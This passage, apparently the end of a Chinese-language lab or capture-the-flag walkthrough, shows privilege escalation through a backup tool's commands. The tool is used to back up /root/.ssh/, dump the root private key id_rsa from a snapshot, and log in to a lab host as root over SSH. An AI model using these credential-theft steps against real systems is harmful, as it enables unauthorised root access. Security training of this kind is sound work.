 - • 存储库路径我选择它本地的 /tmp 目录  
  
- • 环境变量根据红色提示信息填写了一个密码  
  
- • 然后其他的默认，提交即可  
  
创建存储库后可以执行命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuHzPse9Rsia5urtw5ibr0SVWjFW1TnB5SAbicaaf7oJ1vicyzJFY5Gk54Hww/640?wx_fmt=png&from=appmsg "null")  
  
  
输入 help 能看到很多帮助命令  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuH0wzsIjibZo7v7zoAia3LD4o0xESxcLDzMIy6xHl57XGSGLSD88HG5BpA/640?wx_fmt=png&from=appmsg "null")  
  
  
我在其中发现了几个有意思的命令  

```
backup    # 创建一个备份，可以是文件或者文件名
snapshots    # 查看快照的ID
ls    # 查看快照中的文件列表
dump    # 把快照中的文件内容打印出来
```

  
依次执行几个命令进行提取尝试  

```
第一步：backup /root/.ssh/
第二步：snapshots
第三步：ls 快照ID
第四步：dump 快照ID /root/.ssh/id_rsa
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuHvKTEr6kqDlnGO1DvpZEtbdric70w9QHicAexFDu5A1VUwOqaxuEZPTdA/640?wx_fmt=png&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuHysHuga42mgKfiaSyVmpXXMJ3KnrckadH0AUDpCIYxj7icfkzqFYxNK2g/640?wx_fmt=png&from=appmsg "null")  
  
#####   
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuH1RAoxoUHlMlAOZ7eGxTzYEGIEySl7avwbKWRHURDNiatIvHrUZ6WDOg/640?wx_fmt=png&from=appmsg "null")  
  
  
然后把私钥复制到本地，给 600 权限  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuHQgWunr0QRwOc6q7TnqMDVhINyzRibUSibB6pCs1QWrjza33onLYv6ibHA/640?wx_fmt=png&from=appmsg "null")  
  
  
ssh root 登录成功  

```
ssh root@10.10.11.74 -i id_rsa
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuHhxkyrwXwEdpYquNnEm1zahbHm8Lsp9ibNh0iaMtgjfefJ7EcjNrAH5xA/640?wx_fmt=png&from=appmsg "null")  
  
  
   
  
欢迎关注   
红队安全圈  
，给个  
一键四连  
吧  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/5HsgFkdwV2J3Ykl5xDepRoqkSBlQKAEIEx0DHiaQHx6sBYGNDAI6Eia2ZnZLLsHzD8yxEGEVbrzzTL4Shrf7iaWWw/640?wx_fmt=gif&from=appmsg "")  
  
